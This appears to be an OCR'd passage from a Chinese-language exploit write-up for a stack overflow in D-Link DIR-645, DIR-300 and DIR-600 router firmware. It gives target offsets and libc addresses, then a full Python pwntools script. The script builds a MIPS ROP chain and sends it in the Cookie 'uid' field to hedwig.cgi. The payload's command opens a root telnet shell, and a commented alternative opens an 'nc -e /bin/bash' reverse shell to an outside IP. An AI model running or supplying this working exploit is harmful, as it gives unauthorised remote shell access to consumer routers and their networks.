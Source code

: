 ```
[ 'Multiple Targets: D-Link DIR-645 v1.03, DIR-300 v2.14, DIR-600',
            `{`
              'Offset'      =&gt; 973,
              'LibcBase'    =&gt; 0x2aaf8000,    # Router
              #'LibcBase'   =&gt; 0x40854000,    # QEMU environment
              'System'      =&gt; 0x000531FF,    # address of system
              'CalcSystem'  =&gt; 0x000158C8,    # calculate the correct address of system
              'CallSystem'  =&gt; 0x000159CC,    # call our system
            `}`
          ]
```

下面编写exp进行测试，利用system函数进行测试。

```
#!/usr/bin/python
from pwn import *
context.endian = "little"
context.arch = "mips"

import requests
import sys

def get_payload(offset, libc_base, cmd):
    gadget1 = 0x45988
    gadget2 = 0x159cc
    system_addr_1 = 0x53200-1
    payload = 'A' * offset
    payload += p32(libc_base + system_addr_1) # s0
    payload += p32(libc_base + gadget2)       # s1
    payload += 'A' * 4                        # s2
    payload += 'A' * 4                        # s3
    payload += 'A' * 4                        # s4
    payload += 'A' * 4                           # s5
    payload += 'A' * 4                        # s6
    payload += 'A' * 4                        # s7
    payload += 'A' * 4                        # fp
    payload += p32(libc_base + gadget1)       # ra
    payload += 'B' * 0x10
    payload += cmd
    return payload

if __name__=="__main__":
    #cmd = "nc -e /bin/bash 192.168.79.145 9999"
    cmd = 'telnetd -p 222 -l /bin/sh'
    cookie='uid=' + get_payload(973, 0x2aaf8000, cmd)
    header = `{`
        'Cookie'        : cookie,
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'Content-Length': '100'
        `}`
    data = `{`'uid':'1234'`}`
    ip_port=sys.argv[1]
    url="http://"+ip_port+"/hedwig.cgi"
    r=requests.post(url=url,headers=header,data=data)
    print r.text
```
